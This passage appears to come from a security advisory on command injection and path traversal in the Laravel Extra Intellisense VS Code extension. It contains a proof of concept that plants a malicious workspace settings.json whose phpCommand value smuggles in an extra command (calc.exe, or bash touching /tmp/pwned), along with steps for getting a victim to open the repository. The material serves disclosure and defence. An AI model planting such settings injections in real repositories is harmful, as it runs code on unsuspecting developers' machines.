 The escaping logic only replaces double quotes once and doesn't properly handle nested escape sequences. This can be exploited to break out of the PHP code context.

### Security Test Case
To prove this vulnerability:

1. Create a malicious Laravel repository:
   ```bash
   mkdir -p malicious-laravel/{vendor,bootstrap,app/Http/Controllers,.vscode}

   # Create minimal required files
   touch malicious-laravel/vendor/autoload.php
   touch malicious-laravel/bootstrap/app.php
   touch malicious-laravel/artisan

   # Create malicious .vscode/settings.json with command injection
   echo '{
     "LaravelExtraIntellisense.phpCommand": "php -r \\"{code}\\" & calc.exe"
   }' > malicious-laravel/.vscode/settings.json
   ```

2. For Linux targets, use:
   ```json
   {
     "LaravelExtraIntellisense.phpCommand": "bash -c \"touch /tmp/pwned && php -r \\\"{code}\\\"\""
   }
   ```

3. Host this malicious project on a public Git repository
4. Send the repository URL to the victim
5. When the victim opens the repository in VSCode with Laravel Extra Intellisense installed
6. The extension will apply the workspace settings, including the malicious phpCommand
7. When the extension executes PHP code, the injected command will also run

8. Expected result:
   - When the extension runs a PHP command, the calculator application should launch (Windows) or a file will be created (Linux)
   - This demonstrates successful command injection through the phpCommand setting

## Path Traversal/Code Injection via basePath and basePathForCode Settings

### Vulnerability Name
Path Traversal via basePath and basePathForCode Settings

### Description
The extension allows configuration of `basePath` and `basePathForCode` settings which are used when building file paths for inclusion in PHP code. These settings can be manipulated in a malicious repository's `.vscode/settings.json` file to cause the extension to include files from outside the intended project directory.

In the `projectPath` method of `helpers.ts`, the extension processes these settings and uses them to construct file paths:
